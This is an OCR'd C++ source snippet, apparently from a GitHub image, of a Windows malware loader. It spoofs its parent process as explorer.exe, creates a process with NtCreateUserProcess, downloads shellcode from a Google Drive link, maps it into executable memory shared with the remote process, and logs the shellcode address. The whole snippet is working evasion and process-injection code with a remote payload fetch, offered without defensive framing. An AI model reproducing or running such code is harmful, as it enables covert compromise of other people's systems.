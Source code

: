 ```

	// Spoof Parent Process Id as explorer.exe
	DWORD trayPID;
	HWND trayWnd = FindWindowW(L"Shell_TrayWnd", NULL);
	GetWindowThreadProcessId(trayWnd, &trayPID);
	HANDLE hParent = OpenProcess(PROCESS_ALL_ACCESS, false, trayPID);
	if (hParent)
	{
		AttributeList->Attributes[5].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
		AttributeList->Attributes[5].Size = sizeof(HANDLE);
		AttributeList->Attributes[5].ValuePtr = hParent;
	}
	else
	{
		AttributeList->TotalLength -= sizeof(PS_ATTRIBUTE);
	}
	

	/* Process Injection */

	// Create the process
	HANDLE ntHandle = NULL, ntThread = NULL;
	ntCreateUserProcess(&ntHandle, &ntThread, MAXIMUM_ALLOWED, MAXIMUM_ALLOWED, &objAttr, &objAttr, 0x00000200, 0x00000001, ProcessParameters, &CreateInfo, AttributeList);

	// download shellcode
	std::vector<BYTE> shellcode = Download(L"www.drive.google.com\0", L"/u/5/uc?id=1WUDbPX-v47lxMcE0e9K_Uqk6G83AZa5_&export=download\0");

	// create section in local process
	HANDLE localSection;
	LARGE_INTEGER localszSection = { shellcode.size() };

	NTSTATUS status = ntCreateSection(
		&localSection,
		SECTION_ALL_ACCESS,
		NULL,
		&localszSection,
		PAGE_EXECUTE_READWRITE,
		SEC_COMMIT,
		NULL);

	// map section into memory of local process
	PVOID hLocalAddress = NULL;
	SIZE_T viewSize = 0;

	status = ntMapViewOfSection(
		localSection,
		GetCurrentProcess(),
		&hLocalAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	// copy shellcode into local memory
	RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

	// map section into memory of remote process
	PVOID hRemoteAddress = NULL;
```

[+]: Shellcode located at c7160
